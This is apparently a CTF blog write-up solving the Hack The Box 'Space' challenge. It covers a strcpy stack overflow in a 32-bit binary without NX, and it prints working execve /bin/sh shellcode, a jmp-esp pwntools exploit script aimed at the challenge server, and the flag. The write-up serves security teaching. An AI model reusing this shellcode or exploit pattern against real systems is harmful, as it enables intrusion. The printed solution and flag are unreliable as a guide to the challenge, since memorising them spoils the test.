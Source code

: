 ```yaml
---
title: "Space – HTB Challenge"
date: 2025-09-12T12:00:00Z
tags: ["pwn", "shellcode", "buffer overflow", "i386"]
categories: ["HTB"]
cover: "images/CTFs_images/hackthebox.png"
---
```


## Challenge Description
```

roaming in a small space

````

This challenge is a classic **shellcode injection** on a 32-bit binary with minimal protections. The main constraint is the **very limited space available** for our attack.

---

### Initial Recon

Checking the file:

```sh
$ file space
space: ELF 32-bit LSB executable, Intel i386, dynamically linked, not stripped
$ checksec space
Arch:       i386-32-little
RELRO:      No RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x8048000)
Stack:      Executable
RWX:        Has RWX segments
Stripped:   No
````

* **32-bit ELF**
* **No NX / Stack Executable**
* **Not PIE**
* **RWX segment available**
* **No stack canary**

This makes it suitable for a **direct shellcode injection**.

---

### Function Analysis

Listing functions:

```c
0x08049192  _       ; contains JMP ESP
0x080491a4  vuln
0x080491cf  main
...
```

Disassembly of `_`:

```asm
08049192 <_>:
   push   ebp
   mov    ebp,esp
   call   0x8049243
   add    eax,0x212a
   jmp    esp
   nop
   pop    ebp
   ret
```

Key observation:

* Contains a **`JMP ESP`** instruction → perfect for redirecting execution to our shellcode.
* Rare in binaries, but extremely useful when NX is disabled.

---

### Vulnerable Function Analysis

`main` reads up to **0x1f (31) bytes** into `[ebp-0x27]` and then calls `vuln`:

```asm
080491cf <main>:
...
0804922c call 0x80491a4 <vuln>
...
```

`vuln`:

```asm
080491a4 <vuln>:
   push ebp
   mov ebp, esp
   sub esp,0x14
   call 0x8049243
   add eax,0x2114
   push DWORD PTR [ebp+0x8]  ; user input
   lea edx,[ebp-0xe]          ; dest buffer
   push edx
   call strcpy                ; unsafe copy!
   ...
```

Analysis:

* **Destination buffer:** `[ebp-0xe]` → 14 bytes
* **Source:** `[ebp+0x8]` → user input
* **Overflow:** `strcpy` copies until `\x00` → **classic buffer overflow**

Using `cyclic` to find the offset to EIP:

```sh
pwndbg> cyclic -l aafa
Found at offset 18
```

* Only **18 bytes** to reach EIP → small, but feasible with shellcode injection.

---

### Stack Layout & Exploit Strategy

Due to the limited space before EIP, we perform a **two-stage shellcode injection**:

1. **Stub:** Adjust stack pointer (`sub esp, 0x15`) to create safe execution space.
2. **Jump to shellcode:** `jmp esp` from `_` instruction.
3. **Main shellcode:** Execute `/bin/sh`.

---

### Shellcode

**Assembly:**

```asm
section .text
    global _start

_start:
    xor ecx, ecx
    mul ecx                ; zero EAX
    sub esp, 0x15          ; adjust stack
    jmp esp                ; jump to shellcode

    push eax
    push 0x68732f2f        ; "//sh"
    push 0x6e69622f        ; "/bin"
    mov ebx, esp
    mov al, 11
    int 0x80
```

**Hex representation (Python payload):**

```python
\x31\xc9\xf7\xe1\x83\xec\x15\xff\xe4\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

**Explanation:**

* `sub esp, 0x15` → creates safe space on stack to avoid corruption.
* `jmp esp` → jumps to ESP, which points to shellcode after stub.
* Payload layout:

```
[Shellcode last part] + [EIP = JMP ESP] + [Stub: sub esp, jmp esp]
```

* Stack grows downwards - this arrangement ensures proper execution.

---

### Exploit Script

```python
from pwn import *

io = remote("94.237.49.23", 44964)
# io = process("./space")

jmp_esp = p32(0x0804919f)

shellcode_first = b"\x31\xc9\xf7\xe1\x83\xec\x15\xff\xe4"
shellcode_last  = b"a" + b"\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"  # 18 bytes

payload = shellcode_last + jmp_esp + shellcode_first

io.sendafter(b"> ", payload)
io.interactive()
```

---

### Flag Retrieved

{{< figure src="/images/posts_images/htb/challenge/space/image.png">}}

```
HTB{sh3llc0de_1n_7h3_5p4c3}
```

---

### Summary

* **Vulnerability:** `strcpy` buffer overflow in 32-bit ELF with no NX.
* **Exploit:** Two-stage shellcode injection due to very limited space (18 bytes to EIP).

If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.
